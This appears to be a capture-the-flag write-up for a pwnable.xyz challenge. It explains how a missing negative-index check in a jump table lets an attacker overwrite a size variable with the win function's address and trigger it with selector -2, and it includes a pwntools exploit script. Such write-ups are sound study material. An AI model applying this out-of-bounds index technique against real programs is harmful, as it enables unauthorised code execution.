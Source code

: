 # Jmp table

The challenge doesn't check if the function selector is negative, which we can use to select a function behind the function selector.

8 bytes before the function_selector lies  the size global variable.

Overwriting the size variable with the address of the win function we can then call the function selector with -2 and win.

```py
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
p = process(e.path)
p = remote('svc.pwnable.xyz',30007)

win = str(e.symbols['_'])
print(win)


p.recvuntil(b'> ')
p.sendline(b'1')
p.sendlineafter(b'Size: ',win)
p.recvuntil(b'> ')
p.sendline(b'-2')

p.interactive()
```
